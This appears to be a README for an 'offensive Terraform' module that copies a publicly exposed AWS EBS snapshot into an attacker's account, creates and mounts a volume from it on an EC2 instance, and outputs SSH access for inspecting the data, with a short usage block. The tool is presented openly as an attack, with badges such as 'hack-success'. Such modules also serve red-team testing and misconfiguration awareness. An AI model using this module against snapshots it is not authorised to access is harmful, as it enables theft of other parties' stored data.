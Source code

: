 # AWS EBS Snapshot Publicly Exposed

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which copies publicly exposed EBS snapshot to us-east-1 region in attacker's AWS account and creates EBS volume from the copied EBS snapshot. After that, the module attaches and mounts the EBS volume to an EC2 instance. Finally, attacker can ssh into an EC2 instance and inspect a mounted volume "/usr/src/hack".

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ebs-snapshot-publicly-exposed/master/diagram.jpg)

## Usage
```
module "ebs-snapshot-publicly-exposed" {
    source  = "offensive-terraform/ebs-snapshot-publicly-exposed/aws"

    public_snapshot_id = "snap-000000000000"
}

output "ssh_private_key" {
  value = module.ebs-snapshot-publicly-exposed.ssh_private_key
}

output "ssh_ec2_connect" {
  value = module.ebs-snapshot-publicly-exposed.ssh_ec2_connect
}

output "ebs_volume_mount_path" {
  value = module.ebs-snapshot-publicly-exposed.ebs_volume_mount_path
}
```

## Author
Module managed by https://github.com/iganbold
